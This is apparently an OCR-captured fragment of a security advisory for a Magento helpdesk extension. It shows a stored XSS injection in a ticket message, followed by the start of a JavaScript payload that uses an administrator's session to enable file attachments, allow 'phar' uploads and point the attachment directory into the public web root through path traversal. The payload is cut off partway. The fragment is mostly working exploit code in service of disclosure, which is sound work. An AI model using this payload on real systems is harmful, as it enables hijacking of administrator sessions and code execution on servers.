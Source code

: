     Hello
    -----------------------------243970849510445067673127196635
    Content-Disposition: form-data; name="message_cc"


    -----------------------------243970849510445067673127196635
    Content-Disposition: form-data; name="content"

    <p><script>alert(1)</script></p>
    -----------------------------243970849510445067673127196635
    Content-Disposition: form-data; name="hideit"


    -----------------------------243970849510445067673127196635--



    The following XSS payload shown below can be used to trigger

    1) Enabling file attachments in ticket messages
    2) Adding 'phar' to allowed file extensions
    3) Setting the attachment directory to 'helpdesk/files/../../../pub'


    <script>
    function successListener(e) {
      var doc = e.target.response
      var action=doc.getElementById('config-edit-form').action;

      function submitRequest()
      {
      var formKey = FORM_KEY;
      var xhr = new XMLHttpRequest();
      xhr.open("POST", action, true);
      xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------14303502862141221692667966053");
      xhr.withCredentials = true;
      var body = "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"form_key\"\r\n" +
        "\r\n" +
        formKey + "\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_license]\"\r\n" +
        "\r\n" +
        "0\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_general]\"\r\n" +
        "\r\n" +
        "1\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[general][fields][enabled][value]\"\r\n" +
        "\r\n" +
        "1\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[general][fields][log][value]\"\r\n" +
        "\r\n" +
        "0\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[general][fields][default_email][value]\"\r\n" +
        "\r\n" +
        "\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[general][fields][default_status][value]\"\r\n" +
        "\r\n" +
        "1\r\n" +
        "-----------------------------14303502862141221692667966053\r\n" +
        "Content-Disposition: form-data; name=\"groups[general][fields][pending_status][value]\"\r\n" +
        "\r\n" +
        "2\r\n" +